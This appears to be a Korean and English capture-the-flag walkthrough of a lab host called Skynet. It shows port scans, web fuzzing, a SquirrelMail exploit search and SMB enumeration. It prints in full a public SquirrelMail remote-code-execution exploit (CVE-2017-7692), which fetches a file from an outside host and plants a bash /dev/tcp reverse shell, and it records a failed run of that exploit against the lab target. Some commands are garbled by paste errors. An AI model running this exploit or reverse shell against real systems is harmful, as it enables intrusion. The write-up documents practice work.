

## 10.48.183.145


┌──(kali㉿kali)-[~]
└─$ sudo docker run --rm --name rustscan --net=host rustscan/rustscan -a 10.48.183.145
Unable to find image 'rustscan/rustscan:latest' locally
latest: Pulling from rustscan/rustscan
582df0bcf6ab: Pull complete 
c6a83fedfae6: Pull complete 
d9bd24e2554c: Pull complete 
Digest: sha256:1a0137749007f12880c7174c65e9f16835106a787ebc952118c2f9f4ff7a1309
Status: Downloaded newer image for rustscan/rustscan:latest
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.48.183.145:22
Open 10.48.183.145:80
Open 10.48.183.145:110
Open 10.48.183.145:143
Open 10.48.183.145:139
Open 10.48.183.145:445
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-30 07:26 UTC
Initiating Ping Scan at 07:26
Scanning 10.48.183.145 [2 ports]
Completed Ping Scan at 07:26, 0.20s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:26
Completed Parallel DNS resolution of 1 host. at 07:26, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 07:26
Scanning 10.48.183.145 [6 ports]
Discovered open port 110/tcp on 10.48.183.145
Discovered open port 80/tcp on 10.48.183.145
Discovered open port 143/tcp on 10.48.183.145
Discovered open port 22/tcp on 10.48.183.145
Discovered open port 445/tcp on 10.48.183.145
Discovered open port 139/tcp on 10.48.183.145
Completed Connect Scan at 07:26, 0.20s elapsed (6 total ports)
Nmap scan report for 10.48.183.145
Host is up, received syn-ack (0.20s latency).
Scanned at 2025-11-30 07:26:47 UTC for 0s

PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack
80/tcp  open  http         syn-ack
110/tcp open  pop3         syn-ack
139/tcp open  netbios-ssn  syn-ack
143/tcp open  imap         syn-ack
445/tcp open  microsoft-ds syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds


──(kali㉿kali)-[~]
└─$ http http://10.48.183.145                    
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 289
Content-Type: text/html
Date: Sun, 30 Nov 2025 07:28:34 GMT
ETag: "20b-592bbec81c0b6-gzip"
Keep-Alive: timeout=5, max=100
Last-Modified: Tue, 17 Sep 2019 08:58:28 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding

<!DOCTYPE html>
<html>
        <head>
                <link rel="stylesheet" type="text/css" href="style.css">
                <link rel="shortcut icon" type="image/png" href="favicon.ico"/>
                <title>Skynet</title>
        </head>
        <body>
                <div>
                        
                        <form name="skynet" action="#" method="POST"><br>
                                <input type="search" class="search"><br>
                                <input type="submit" class="button" name="submit" value="Skynet Search">
                                <input type="submit" class="button" name="lucky" value="I'm Feeling Lucky">
                        </form>
                </div>
        </body>
</html>

22, 88, 110, 139, 143, 445

> path

ffuf -u http://10.48.183.145/FUZZ -w /usr/share/wordlists/seclists/Dicovery/Web-Content/common.txt

┌──(kali㉿kali)-[~]
└─$ sudo ffuf -u http://10.48.183.145/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.48.183.145/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3298ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3298ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4401ms]
admin                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 200ms]
config                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 303ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 208ms]
index.html              [Status: 200, Size: 523, Words: 26, Lines: 19, Duration: 305ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 309ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 213ms]
squirrelmail            [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 306ms]
:: Progress: [4746/4746] :: Job [1/1] :: 150 req/sec :: Duration: [0:00:36] :: Errors: 0 ::

> /admin

┌──(kali㉿kali)-[~]
└─$ sudo http http://10.48.183.145/admin/
HTTP/1.1 403 Forbidden
Connection: Keep-Alive
Content-Length: 277
Content-Type: text/html; charset=iso-8859-1
Date: Sun, 30 Nov 2025 07:42:26 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.18 (Ubuntu)

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.48.183.145 Port 80</address>
</body></html>


> squirrelmail
                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ sudo http http://10.48.183.145/squirrelmail
HTTP/1.1 301 Moved Permanently
Connection: Keep-Alive
Content-Length: 319
Content-Type: text/html; charset=iso-8859-1
Date: Sun, 30 Nov 2025 07:43:34 GMT
Keep-Alive: timeout=5, max=100
Location: http://10.48.183.145/squirrelmail/
Server: Apache/2.4.18 (Ubuntu)

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.48.183.145/squirrelmail/">here</a>.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.48.183.145 Port 80</address>
</body></html>


```html
┌──(kali㉿kali)-[~]
└─$ curl -L http://10.48.183.145/squirrelmail
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">

<html>

<head>
<meta name="robots" content="noindex,nofollow">
<meta http-equiv="x-dns-prefetch-control" content="off">
<script type="text/javascript" language="JavaScript">
<!--
if (self != top) { try { if (document.domain != top.document.domain) { throw "Clickjacking security violation! Please log out immediately!"; /* this code should never execute - exception should already have been thrown since it's a security violation in this case to even try to access top.document.domain (but it's left here just to be extra safe) */ } } catch (e) { self.location = "/squirrelmail/src/signout.php"; top.location = "/squirrelmail/src/signout.php" } }
// -->
</script>

<title>SquirrelMail - Login</title><script language="JavaScript" type="text/javascript">
<!--
  var alreadyFocused = false;
  function squirrelmail_loginpage_onload() {
    document.login_form.js_autodetect_results.value = '1';
    if (alreadyFocused) return;
    var textElements = 0;
    for (i = 0; i < document.login_form.elements.length; i++) {
      if (document.login_form.elements[i].type == "text" || document.login_form.elements[i].type == "password") {
        textElements++;
        if (textElements == 1) {
          document.login_form.elements[i].focus();
          break;
        }
      }
    }
  }
// -->
</script>

<!--[if IE 6]>
<style type="text/css">
/* avoid stupid IE6 bug with frames and scrollbars */
body {
    width: expression(document.documentElement.clientWidth - 30);
}
</style>
<![endif]-->

</head>

<body text="#000000" bgcolor="#ffffff" link="#0000cc" vlink="#0000cc" alink="#0000cc" onLoad="squirrelmail_loginpage_onload();">
<form action="redirect.php" method="post" name="login_form"  >
<table bgcolor="#ffffff" border="0" cellspacing="0" cellpadding="0" width="100%"><tr><td align="center"><center><br />
<small>SquirrelMail version 1.4.23 [SVN]<br />
  By the SquirrelMail Project Team<br /></small>
<table bgcolor="#ffffff" border="0" width="350"><tr><td bgcolor="#dcdcdc" align="center"><b>SquirrelMail Login</b>
</td>
</tr>
<tr><td bgcolor="#ffffff" align="left">
<table bgcolor="#ffffff" align="center" border="0" width="100%"><tr><td align="right" width="30%">Name:</td>
<td align="left" width="70%"><input type="text" name="login_username" value="" onfocus="alreadyFocused=true;" />
</td>
</tr>

<tr><td align="right" width="30%">Password:</td>
<td align="left" width="70%"><input type="password" name="secretkey" onfocus="alreadyFocused=true;" />
<input type="hidden" name="js_autodetect_results" value="0" />
<input type="hidden" name="just_logged_in" value="1" />
</td>
</tr>
</table>
</td>
</tr>
<tr><td align="left"><center><input type="submit" value="Login" />
</center></td>
</tr>
</table>
</center></td>
</tr>
</table>
</form>
</body></html>

```


> SquirrelMail version 1.4.23


┌──(kali㉿kali)-[~]
└─$ sudo searchsploit SquirrelMail
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
SquirrelMail - 'chpasswd' Local Buffer Overflow                                             | linux/local/273.c
SquirrelMail - 'chpasswd' Local Privilege Escalation (Brute Force)                          | linux/local/417.c
SquirrelMail 1.2.11 - 'move_messages.php' Arbitrary File Moving                             | php/webapps/22791.txt
SquirrelMail 1.2.11 - Multiple Vulnerabilities                                              | php/webapps/22793.txt
SquirrelMail 1.2.11 Administrator Plugin - 'options.php' Arbitrary Admin Account Creation   | php/webapps/22792.txt
SquirrelMail 1.2.6/1.2.7 - Multiple Cross-Site Scripting Vulnerabilities                    | php/webapps/21811.txt
SquirrelMail 1.2.x - From Email Header HTML Injection                                       | php/webapps/24167.txt
SquirrelMail 1.2.x - Theme Remote Command Execution                                         | php/webapps/21358.sh
SquirrelMail 1.4.2 Address Add Plugin - 'add.php' Cross-Site Scripting                      | php/webapps/26305.txt
Squirrelmail 1.4.x - 'Redirect.php' Local File Inclusion                                    | php/webapps/27948.txt
SquirrelMail 1.4.x - Folder Name Cross-Site Scripting                                       | php/webapps/24068.txt
SquirrelMail 1.x - Email Header HTML Injection                                              | linux/remote/24160.txt
SquirrelMail 3.1 - Change Passwd Plugin Local Buffer Overflow                               | linux/local/1449.c
SquirrelMail < 1.4.22 - Remote Code Execution                                               | linux/remote/41910.sh
SquirrelMail < 1.4.5-RC1 - Arbitrary Variable Overwrite                                     | php/webapps/43830.txt
SquirrelMail < 1.4.7 - Arbitrary Variable Overwrite                                         | php/webapps/43839.txt
SquirrelMail G/PGP Encryption Plugin - 'deletekey()' Command Injection                      | php/webapps/4718.rb
SquirrelMail G/PGP Encryption Plugin 2.0 - Command Execution                                | php/webapps/4173.txt
SquirrelMail G/PGP Encryption Plugin 2.0/2.1 - Access Validation / Input Validation         | php/webapps/30859.txt
SquirrelMail G/PGP Encryption Plugin 2.0/2.1 - Multiple Remote Command Execution Vulnerabil | php/webapps/30283.txt
SquirrelMail PGP Plugin - Command Execution (SMTP) (Metasploit)                             | linux/remote/16888.rb
SquirrelMail Virtual Keyboard Plugin - 'vkeyboard.php' Cross-Site Scripting                 | php/webapps/34814.txt
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

- 1.4.23 이니까 이중에서 될 가능성이 높아 보임

> Squirrelmail 1.4.x - 'Redirect.php' Local File Inclusion                                    | php/webapps/27948.txt
> SquirrelMail 1.4.x - Folder Name Cross-Site Scripting                                       | php/webapps/24068.txt
> SquirrelMail < 1.4.22 - Remote Code Execution                                               | linux/remote/41910.sh
> SquirrelMail < 1.4.5-RC1 - Arbitrary Variable Overwrite                                     | php/webapps/43830.txt 

┌──(kali㉿kali)-[~]
└─$ cat cat /usr/share/exploitdb/exploits/linux/remote/41910.sh 
```sh
#!/bin/bash
#
int='\033[94m
     __                     __   __  __           __
    / /   ___  ____ _____ _/ /  / / / /___ ______/ /_____  __________
   / /   / _ \/ __ `/ __ `/ /  / /_/ / __ `/ ___/ //_/ _ \/ ___/ ___/
  / /___/  __/ /_/ / /_/ / /  / __  / /_/ / /__/ ,< /  __/ /  (__  )
 /_____/\___/\__, /\__,_/_/  /_/ /_/\__,_/\___/_/|_|\___/_/  /____/
           /____/

SquirrelMail <= 1.4.23 Remote Code Execution PoC Exploit (CVE-2017-7692)

SquirrelMail_RCE_exploit.sh (ver. 1.1)

Discovered and coded by

Dawid Golunski (@dawid_golunski)
https://legalhackers.com

ExploitBox project:
https://ExploitBox.io

\033[0m'

# Quick and messy PoC for SquirrelMail webmail application.
# It contains payloads for 2 vectors:
# * File Write
# * RCE
# It requires user credentials and that SquirrelMail uses
# Sendmail method as email delivery transport
#
#
# Full advisory URL:
# https://legalhackers.com/advisories/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html
# Exploit URL:
# https://legalhackers.com/exploits/CVE-2017-7692/SquirrelMail_RCE_exploit.sh
#
# Tested on: # Ubuntu 16.04
# squirrelmail package version:
# 2:1.4.23~svn20120406-2ubuntu1.16.04.1
#
# Disclaimer:
# For testing purposes only
#
#
# -----------------------------------------------------------------
#
# Interested in vulns/exploitation?
# Stay tuned for my new project - ExploitBox
#
#                        .;lc'
#                    .,cdkkOOOko;.
#                 .,lxxkkkkOOOO000Ol'
#             .':oxxxxxkkkkOOOO0000KK0x:'
#          .;ldxxxxxxxxkxl,.'lk0000KKKXXXKd;.
#       ':oxxxxxxxxxxo;.       .:oOKKKXXXNNNNOl.
#      '';ldxxxxxdc,.              ,oOXXXNNNXd;,.
#     .ddc;,,:c;.         ,c:         .cxxc:;:ox:
#     .dxxxxo,     .,   ,kMMM0:.  .,     .lxxxxx:
#     .dxxxxxc     lW. oMMMMMMMK  d0     .xxxxxx:
#     .dxxxxxc     .0k.,KWMMMWNo :X:     .xxxxxx:
#     .dxxxxxc      .xN0xxxxxxxkXK,      .xxxxxx:
#     .dxxxxxc    lddOMMMMWd0MMMMKddd.   .xxxxxx:
#     .dxxxxxc      .cNMMMN.oMMMMx'      .xxxxxx:
#     .dxxxxxc     lKo;dNMN.oMM0;:Ok.    'xxxxxx:
#     .dxxxxxc    ;Mc   .lx.:o,    Kl    'xxxxxx:
#     .dxxxxxdl;. .,               .. .;cdxxxxxx:
#     .dxxxxxxxxxdc,.              'cdkkxxxxxxxx:
#      .':oxxxxxxxxxdl;.       .;lxkkkkkxxxxdc,.
#          .;ldxxxxxxxxxdc, .cxkkkkkkkkkxd:.
#             .':oxxxxxxxxx.ckkkkkkkkxl,.
#                 .,cdxxxxx.ckkkkkxc.
#                    .':odx.ckxl,.
#                        .,.'.
#
# https://ExploitBox.io
#
# https://twitter.com/Exploit_Box
#
# -----------------------------------------------------------------

sqspool="/var/spool/squirrelmail/attach/"

echo -e "$int"
#echo -e "\033[94m \nSquirrelMail - Remote Code Execution PoC Exploit (CVE-2017-7692) \n"
#echo -e "SquirrelMail_RCE_exploit.sh (ver. 1.0)\n"
#echo -e "Discovered and coded by: \n\nDawid Golunski \nhttps://legalhackers.com \033[0m\n\n"


# Base URL
if [ $# -ne 1 ]; then
        echo -e "Usage: \n$0 SquirrelMail_URL"
        echo -e "Example: \n$0 http://target/squirrelmail/ \n"

        exit 2
fi
URL="$1"

# Log in
echo -e "\n[*] Enter SquirrelMail user credentials"
read -p  "user: " squser
read -sp "pass: " sqpass

echo -e "\n\n[*] Logging in to SquirrelMail at $URL"
curl -s -D /tmp/sqdata -d"login_username=$squser&secretkey=$sqpass&js_autodetect_results=1&just_logged_in=1" $URL/src/redirect.php | grep -q incorrect
if [ $? -eq 0 ]; then
        echo "Invalid creds"
        exit 2
fi
sessid="`cat /tmp/sqdata | grep SQMSESS | tail -n1 | cut -d'=' -f2 | cut -d';' -f1`"
keyid="`cat /tmp/sqdata | grep key | tail -n1 | cut -d'=' -f2 | cut -d';' -f1`"


# Prepare Sendmail cnf
#
# * The config will launch php via the following stanza:
#
# Mlocal,       P=/usr/bin/php, F=lsDFMAw5:/|@qPn9S, S=EnvFromL/HdrFromL, R=EnvToL/HdrToL,
#               T=DNS/RFC822/X-Unix,
#               A=php -- $u $h ${client_addr}
#
wget -q -O/tmp/smcnf-exp https://legalhackers.com/exploits/sendmail-exploit.cf

# Upload config
echo -e "\n\n[*] Uploading Sendmail config"
token="`curl -s -b"SQMSESSID=$sessid; key=$keyid" "$URL/src/compose.php?mailbox=INBOX&startMessage=1" | grep smtoken | awk -F'value="' '{print $2}' | cut -d'"' -f1 `"
attachid="`curl -H "Expect:" -s -b"SQMSESSID=$sessid; key=$keyid" -F"smtoken=$token" -F"send_to=$mail" -F"subject=attach" -F"body=test" -F"attachfile=@/tmp/smcnf-exp" -F"username=$squser" -F"attach=Add" $URL/src/compose.php | awk -F's:32' '{print $2}' | awk -F'"' '{print $2}' | tr -d '\n'`"
if [ ${#attachid} -lt 32 ]; then
        echo "Something went wrong. Failed to upload the sendmail file."
        exit 2
fi

# Create Sendmail cmd string according to selected payload
echo -e "\n\n[?] Select payload\n"
# SELECT PAYLOAD
echo "1 - File write (into /tmp/sqpoc)"
echo "2 - Remote Code Execution (with the uploaded smcnf-exp + phpsh)"
echo
read -p "[1-2] " pchoice

case $pchoice in
        1) payload="$squser@localhost   -oQ/tmp/        -X/tmp/sqpoc"
           ;;

        2) payload="$squser@localhost   -oQ/tmp/        -C$sqspool/$attachid"
           ;;
esac

if [ $pchoice -eq 2 ]; then
        echo
        read -p "Reverese shell IP: " reverse_ip
        read -p "Reverese shell PORT: " reverse_port
fi

# Reverse shell code
phprevsh="
<?php
        \$cmd = \"/bin/bash -c 'bash -i >/dev/tcp/$reverse_ip/$reverse_port 0<&1 2>&1 & '\";
        file_put_contents(\"/tmp/cmd\", 'export PATH=\"\$PATH\" ; export TERM=vt100 ;' . \$cmd);
        system(\"/bin/bash /tmp/cmd ; rm -f /tmp/cmd\");
?>"


# Set sendmail params in user settings
echo -e "\n[*] Injecting Sendmail command parameters"
token="`curl -s -b"SQMSESSID=$sessid; key=$keyid" "$URL/src/options.php?optpage=personal" | grep smtoken | awk -F'value="' '{print $2}' | cut -d'"' -f1 `"
curl -s -b"SQMSESSID=$sessid; key=$keyid" -d "smtoken=$token&optpage=personal&optmode=submit&submit_personal=Submit" --data-urlencode "new_email_address=$payload" "$URL/src/options.php?optpage=personal" | grep -q 'Success' 2>/dev/null
if [ $? -ne 0 ]; then
        echo "Failed to inject sendmail parameters"
        exit 2
fi

# Send email which triggers the RCE vuln and runs phprevsh
echo -e "\n[*] Sending the email to trigger the vuln"
(sleep 2s && curl -s -D/tmp/sheaders -b"SQMSESSID=$sessid; key=$keyid" -d"smtoken=$token" -d"startMessage=1" -d"session=0" \
-d"send_to=$squser@localhost" -d"subject=poc" --data-urlencode "body=$phprevsh" -d"send=Send" -d"username=$squser" $URL/src/compose.php) &

if [ $pchoice -eq 2 ]; then
        echo -e "\n[*] Waiting for shell on $reverse_ip port $reverse_port"
        nc -vv -l -p $reverse_port
else
        echo -e "\n[*] The test file should have been written at /tmp/sqpoc"
fi

grep -q "302 Found" /tmp/sheaders
if [ $? -eq 1 ]; then
        echo "There was a problem with sending email"
        exit 2
fi


# Done
echo -e "\n[*] All done. Exiting"                                                                                                                      
```
> subdomain -> nothing
```bash

┌──(kali㉿kali)-[~]
└─$ sudosudo ffuf -up://10.48.183.145 -H "-H "Host: FUZZ.10.48.183.145" -osts.txt -w /-w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.48.183.145
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.10.48.183.145
 :: Output file      : vhosts.txt
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________


>  /usr/share/exploitdb/exploits/linux/remote/41910.sh                                                                           
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudosudo /usr/share/exploitdb/exploits/linux/remote/41910.sh 
[sudo] password for kali: 

     __                     __   __  __           __
    / /   ___  ____ _____ _/ /  / / / /___ ______/ /_____  __________
   / /   / _ \/ __ `/ __ `/ /  / /_/ / __ `/ ___/ //_/ _ \/ ___/ ___/
  / /___/  __/ /_/ / /_/ / /  / __  / /_/ / /__/ ,< /  __/ /  (__  )
 /_____/\___/\__, /\__,_/_/  /_/ /_/\__,_/\___/_/|_|\___/_/  /____/
           /____/

SquirrelMail <= 1.4.23 Remote Code Execution PoC Exploit (CVE-2017-7692)

SquirrelMail_RCE_exploit.sh (ver. 1.1)

Discovered and coded by

Dawid Golunski (@dawid_golunski)
https://legalhackers.com

ExploitBox project:
https://ExploitBox.io


Usage: 
/usr/share/exploitdb/exploits/linux/remote/41910.sh SquirrelMail_URL
Example: 
/usr/share/exploitdb/exploits/linux/remote/41910.sh http://target/squirrelmail/ 

                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ sudo /usr/share/exploitdb/exploits/linux/remote/41910.sh http://10.48.183.145/squireelmail/

     __                     __   __  __           __
    / /   ___  ____ _____ _/ /  / / / /___ ______/ /_____  __________
   / /   / _ \/ __ `/ __ `/ /  / /_/ / __ `/ ___/ //_/ _ \/ ___/ ___/
  / /___/  __/ /_/ / /_/ / /  / __  / /_/ / /__/ ,< /  __/ /  (__  )
 /_____/\___/\__, /\__,_/_/  /_/ /_/\__,_/\___/_/|_|\___/_/  /____/
           /____/

SquirrelMail <= 1.4.23 Remote Code Execution PoC Exploit (CVE-2017-7692)

SquirrelMail_RCE_exploit.sh (ver. 1.1)

Discovered and coded by

Dawid Golunski (@dawid_golunski)
https://legalhackers.com

ExploitBox project:
https://ExploitBox.io


[*] Enter SquirrelMail user credentials
user: 
pass: 

[*] Logging in to SquirrelMail at http://10.48.183.145/squireelmail/


[*] Uploading Sendmail config
Something went wrong. Failed to upload the sendmail file.
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ clear     
```

> username, password requrement but... idn
> re try nmap
```bash
┌──(kali㉿kali)-[~]
└─$ cat scan.txt          
Nmap 7.95 scan initiated Sun Nov 30 18:14:34 2025 as: /usr/lib/nmap/nmap -sS -sC -sV -O -Pn -oN scan.txt --open -p 22,80,110,139,143,445 10.48.183.145
Nmap scan report for 10.48.183.145
Host is up (0.20s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE UIDL CAPA RESP-CODES TOP PIPELINING SASL
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: IDLE ID ENABLE post-login OK LITERAL+ more have LOGINDISABLEDA0001 IMAP4rev1 LOGIN-REFERRALS capabilities Pre-login SASL-IR listed
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 3 hops
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h59m59s, deviation: 3h27m51s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-11-30T09:14:48
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2025-11-30T03:14:48-06:00
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
> via SMB perhaps..?
> enum4linux, smbmap, crackmapexec

```bash
# enum4linux
┌──(kali㉿kali)-[~]
└─$ enum4linux -a 10.48.183.145
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = "",
        LC_ALL = (unset),
        LC_CTYPE = (unset),
        LC_NUMERIC = (unset),
        LC_COLLATE = (unset),
        LC_TIME = (unset),
        LC_MESSAGES = (unset),
        LC_MONETARY = (unset),
        LC_ADDRESS = (unset),
        LC_IDENTIFICATION = (unset),
        LC_MEASUREMENT = (unset),
        LC_PAPER = (unset),
        LC_TELEPHONE = (unset),
        LC_NAME = (unset),
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Nov 30 18:19:15 2025

 =========================================( Target Information )=========================================
                                                                                                                              
Target ........... 10.48.183.145                                                                                              
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on 10.48.183.145 )===========================
                                                                                                                              
                                                                                                                              
[+] Got domain/workgroup name: WORKGROUP                                                                                      
                                                                                                                              
                                                                                                                              
 ===============================( Nbtstat Information for 10.48.183.145 )===============================
                                                                                                                              
Looking up status of 10.48.183.145                                                                                            
        SKYNET          <00> -         B <ACTIVE>  Workstation Service
        SKYNET          <03> -         B <ACTIVE>  Messenger Service
        SKYNET          <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ===================================( Session Check on 10.48.183.145 )===================================
                                                                                                                              
                                                                                                                              
[+] Server 10.48.183.145 allows sessions using username '', password ''                                                       
                                                                                                                              
                                                                                                                              
 ================================( Getting domain SID for 10.48.183.145 )================================
                                                                                                                              
Domain Name: WORKGROUP                                                                                                        
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup                                                          
                                                                                                                              
                                                                                                                              
 ==================================( OS information on 10.48.183.145 )==================================
                                                                                                                              
                                                                                                                              
[E] Can't get OS info with smbclient                                                                                          
                                                                                                                              
                                                                                                                              
[+] Got OS info for 10.48.183.145 from srvinfo:                                                                               
        SKYNET         Wk Sv PrQ Unx NT SNT skynet server (Samba, Ubuntu)                                                     
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03


 =======================================( Users on 10.48.183.145 )=======================================
                                                                                                                              
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: milesdyson       Name:   Desc:                                                 

user:[milesdyson] rid:[0x3e8]

 =================================( Share Enumeration on 10.48.183.145 )=================================
                                                                                                                              
                                                                                                                              
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET

[+] Attempting to map shares on 10.48.183.145                                                                                 
                                                                                                                              
//10.48.183.145/print$  Mapping: DENIED Listing: N/A Writing: N/A                                                             
